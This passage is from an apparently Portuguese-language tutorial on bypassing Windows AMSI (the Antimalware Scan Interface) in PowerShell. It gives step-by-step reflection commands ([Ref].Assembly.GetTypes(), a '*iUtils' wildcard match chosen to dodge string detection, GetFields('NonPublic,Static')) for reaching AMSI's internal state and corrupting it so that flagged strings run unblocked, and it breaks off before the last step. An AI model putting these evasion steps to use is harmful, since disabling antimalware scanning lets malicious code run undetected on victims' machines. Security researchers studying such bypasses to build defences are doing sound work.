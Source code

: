 Como resultado, após gerar o erro, conseguimos corromper o AMSI e executar a string sem bloqueios:

<img src="/assets/img/AMSIBYPASS (9).png">

## Criando o bypass com powershell

O powershell guarda informações do AMSI internamente dentro de uma classe chamada **System.Management.Automation.AmsiUtils,** como é um método interno, podemos ultilizar o conceito de **Reflection** para acessar seus métodos

Primeiro precisamos enumerar todos os tipos de dados existentes dentro dessa classe,
conseguimos fazer isso através do método **GetType**, presente dentro de uma estrutura
chamada **System.Management.Automation.PSReference**, ou **Ref.**

❅──────✧❅✦❅✧──────❅•❅──────✧❅✦❅✧──────❅•❅──────✧❅✦❅✧───❅

Uma estratégia é enumerar todos os tipos de dados existentes no processo do powershell:

```powershell
$a=[Ref].Assembly.GetTypes()
```

Logo em seguida, podemos criar um loop for que irá salvar somente o método que nós
queremos

```powershell
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$b}}
```

Dessa forma conseguimos acesso ao método sem que o AMSI alerte.

O próximo passo é enumerar todos os campos e objetos dessa classe, em powershell
fazemos isso com o método GetFields, vamos utilizar as propriedades NonPublic e static para
enumerar as estruturas que não são instanciadas dentro da classe.

Primeiro salvamos a referência ao amsiUtils

```powershell
Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}}
```

Logo em seguida aplicamos o GetFields com as configurações mencionadas

```powershell
$c.GetFields('NonPublic,Static')
```

O primeiro campo é o que procuramos:

<img src="/assets/img/AMSIBYPASS (10).png">

Conseguimos acessar esse método, que é justamente o que precisamos para contornar o
AMSI, o único problema é que se colocarmos essa string no comando, o AMSI também irá
alertar como malicioso, uma vez que a string amsi é alertada. Porém podemos utilizar a
mesma técnica de antes para conseguir uma referência para esse campo.
